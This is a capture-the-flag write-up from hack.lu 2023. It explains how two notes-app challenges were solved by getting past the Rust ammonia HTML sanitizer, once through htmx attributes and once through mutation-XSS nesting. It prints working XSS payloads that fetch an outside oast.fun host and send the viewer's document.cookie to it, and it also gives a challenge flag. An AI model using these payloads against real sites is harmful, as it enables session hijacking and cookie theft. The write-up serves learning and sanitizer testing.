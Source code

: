 ```yaml
---
title: "hack.lu 2023 Writeup"
date: "2023-10-15"
tags: ['Writeup', 'Web']
draft: false
summary: "This writeup contains an interesting mXSS challenge, named awesome-note-2,  from the hack.lu this year."
---
```


This writeup contains an interesting mXSS challenge, named awesome-note-2,  from the hack.lu this year.



## Web

### awesome-note-1

The server application is written in Rust. The HTML Sanitizer in Rust is called `ammonia`.

https://docs.rs/ammonia/latest/ammonia/struct.Builder.html

The sanitization rules applied on the backend were discerned as:

+ only allow h1, p, div tag
+ only allow attribute with "hx-" prefix

```
let safe = ammonia::Builder::new()
    .tags(hashset!["h1", "p", "div"])
    .add_generic_attribute_prefixes(&["hx-"])
    .clean(&body)
    .to_string();
```

On investigating the significance of the "hx-" prefix, it was discovered that the website's frontend leverages the `htmx` library. This library offers a seamless means for HTML elements to interact with JavaScript.

https://htmx.org/

Here is my payload:

```
<h1>Example note</h1>
<p>Don't forget about that exam next monday!</p>

<div hx-get="/api/note/" hx-on::before-request="fetch('https://cmp2b3c2vtc0000y7e8ggkmbfthyyyyyb.oast.fun/?cookie=' + encodeURIComponent(document.cookie));" hx-trigger="load delay:0.001s" hx-target="#content">  Get Some HTML</div>
```

The malicious note, when reported and consequently viewed by the admin, exposed the admin's session cookies to our endpoint, thereby compromising the session.

![awesome-notes-1-1](/static/images/hack-lu-2023-Writeup/awesome-notes-1-1.png)

![awesome-notes-1-flag](/static/images/hack-lu-2023-Writeup/awesome-notes-1-flag-7419992.png)



### awesome-notes-2

In this stage of the challenge, while the underlying mechanics were similar, the sanitizer rules posed a different puzzle.

**Understanding ammonia's Functionality**

The following content is my understand of how `ammonia` works. At its core, `ammonia` parses an HTML string and then cleans or sanitizes the parsed tree based on specified whitelist/blacklist rules:

+ Whitelist tags: A set of default tags are whitelisted in ammonia. Additional tags can be included using `add_tags` or `tags`.
+ Blacklist tags(clean-content tags): The contents of tags in this category will be completely removed from the output. Tags can be appended to this list with `add_clean_content_tags` or `clean_content_tags`.
+ Notably, a tag can only belong to one of these lists.

In the following, the application allows a list of math related tags specified in `TAGs` and `style` tag. Then, it remove the `style` tag from the blacklist to avoid any panic.

```
let safe = ammonia::Builder::new()
    .add_tags(TAGS)
    .add_tags(&["style"])
    .rm_clean_content_tags(&["style"])
    /*
        Thank god we don't have any more XSS vulnerabilities now
    */
    // .add_generic_attribute_prefixes(&["hx-"])
    .clean(&body)
    .to_string();
```

**mXSS**

mXSS attacks revolve around the intricate dance between an XSS sanitizer and the browser's DOM parser. Discrepancies in their interpretation of HTML can be weaponized. The attacker crafts payloads that seem benign to the sanitizer but mutate into malicious scripts when interpreted by the browser.

Here is my payload:

```
<math><semantics><annotation-xml encoding="text/html"><style><img src=x onerror="fetch('https://cmp2b3c2vtc0000y7e8ggkmbfthyyyyyb.oast.fun/?cookie=' + encodeURIComponent(document.cookie));">
```

This cleverly constructed payload incorporates nested elements in an unorthodox manner:

1. The inclusion of a `<style>` element within `<annotation-xml>` defies standard conventions.
2. An `<img>` tag situated inside a `<style>` tag is another deviation from normative HTML practices.

Given this unconventional structure, `ammonia` sanitizes the payload by stripping attributes and methodically reconstructing the DOM tree (layer by layer). However, the DOM parser in the browser patch the problematic payload differently to make it render properly which ultimately leaving the `<img>` tag independent and hence executable.

![awesome-notes-2-mxss](/static/images/hack-lu-2023-Writeup/awesome-notes-2-mxss-7419992.png)

```
// Payload 1
// Attacker input
<math><semantics><annotation-xml encoding="text/html"><style><img src=x onerror="alert(1)">

// After sanitizer
<math><semantics><annotation-xml><style><img src=x onerror="alert(1)">
          </style></annotation-xml></semantics></math>
          
// After DOM parser patching (broswer)
<math><semantics><annotation-xml><style></style></annotation-xml></semantics></math><img src="x" onerror="alert(1)">
```

I also saw another working payload from other player's writeup:

```
// Payload 2
// Attacker input
<math><mtext><svg><style><a title="</style><img src onerror=alert(1)>">

// After sanitizer
<math><mtext><style><a title="</style><img src onerror=alert(1)>" rel="noopener noreferrer"></a></style></mtext></math>

// After DOM parser patching (broswer)
<math><mtext><style><a title="</style><img src="" onerror="alert(1)">" rel="noopener noreferrer"&gt;</mtext></math>
```

Here is how the browser treat the sanitized payload 2:

![awesome-notes-2-mxss](/static/images/hack-lu-2023-Writeup/awesome-notes-2-py2-7419992.png)

There are more mXSS payload from the DOMPurify repository unit test cases: 

https://github.com/cure53/DOMPurify/blob/7e6a7ee8b710ee669dafa2231e98a50ee06d3cef/test/fixtures/expect.mjs#L892

Get the flag.

![awesome-notes-2-2](/static/images/hack-lu-2023-Writeup/awesome-notes-2-2.png)

```
flag{th1s_ch4ll3ng3_w4s_n3rd3d_f0r_y0ur_pl34sur3}
```

